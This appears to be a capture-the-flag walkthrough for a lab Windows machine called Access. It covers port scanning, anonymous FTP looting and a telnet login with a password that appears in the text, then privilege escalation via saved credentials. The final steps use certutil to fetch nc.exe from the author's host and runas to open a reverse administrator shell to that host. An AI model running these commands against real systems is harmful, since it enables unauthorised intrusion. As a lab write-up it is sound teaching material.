

# Access

In this room we are going to attempt to get root in the **Access** machine which its theme is Windows Privilege Escalation!

Let's begin.

### Port Enumeration

Let's first start with a simple port enumeration command:

```
nmap <ip> -A -T4 -p-
```

> PORT   STATE SERVICE VERSION
> **21/tcp open  ftp     Microsoft ftpd**
> | ftp-syst: 
> |_  SYST: Windows_NT
> | ftp-anon: Anonymous FTP login allowed (FTP code 230)
> |_Can't get directory listing: PASV failed: 425 Cannot open data connection.
> **23/tcp open  telnet  Microsoft Windows XP telnetd**
> | telnet-ntlm-info: 
> |   Target_Name: ACCESS
> |   NetBIOS_Domain_Name: ACCESS
> |   NetBIOS_Computer_Name: ACCESS
> |   DNS_Domain_Name: ACCESS
> |   DNS_Computer_Name: ACCESS
> |_  Product_Version: 6.1.7600
> **80/tcp open  http    Microsoft IIS httpd 7.5**
> |_http-title: MegaCorp
> |_http-server-header: Microsoft-IIS/7.5
> | http-methods: 
> |_  Potentially risky methods: TRACE
> Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
>
> Host script results:
> |_clock-skew: -1s

From the output of the nmap scan we performed we know now that the machine has FTP, Telnet and HTTP open:

- Port 80 HTTP
- Port 21 FTP
- Port 23 Telnet

### FTP

Since the nmap scan showcased we have anonymous login access I decided to try and see if I had access to files inside this FTP server.

```
ftp 10.10.10.98
```

There are two directories inside each containing one file:

- backups.mdb - After a quick search online I discovered it is a Microsoft Access Database file
- Access Control.zip - Password Protected

In order to download these files safely (because when I did this the default way I could not open the database file) you need to switch thee download method from ASCII mode to Binary.

```
binary
```

Then after downloading the files I opened the backup file using Microsoft Access and got set of tables. After a bit of manual enumeration I found a table which contained the credential pairs.


After using the second password I was able to extract the Access Control.zip which contained a .pst file.



Using the tool above I was able to read the content of such file. 4Cc3ssC0ntr0ller


### Foothold

Using the credential pair above I was able to login using telnet into the target machine as the user access\security .

### Privilege Escalation

From the TCM Security Academy I had already a hint on this machine that there was a set of credentials stored in the machine. We can check for this using:

```
cmdkey /list
```

As a proof of concept for the upcoming steps we can use the command below to check if we indeed can use runas to escalate our privileges. The /noprofile can bee omitted but the remaining flags are important.

```
runas /env /noprofile /savecred /user:ACCESS\Administrator "cmd.exe /c whoami > whoami.txt"
```

If we check the output of the created file we can see that we are the Administrator user.

Let's now get a shell using the nc binary in the target system:

```
certutil.exe -urlcache -f http://10.10.16.4/nc.exe nc.exe
```

Now we just have to start a listener and we should get a shell:

```
runas /env /noprofile /savecred /user:ACCESS\Administrator "nc.exe 10.10.16.4 4444 -e cmd.exe"
```

Congrats!
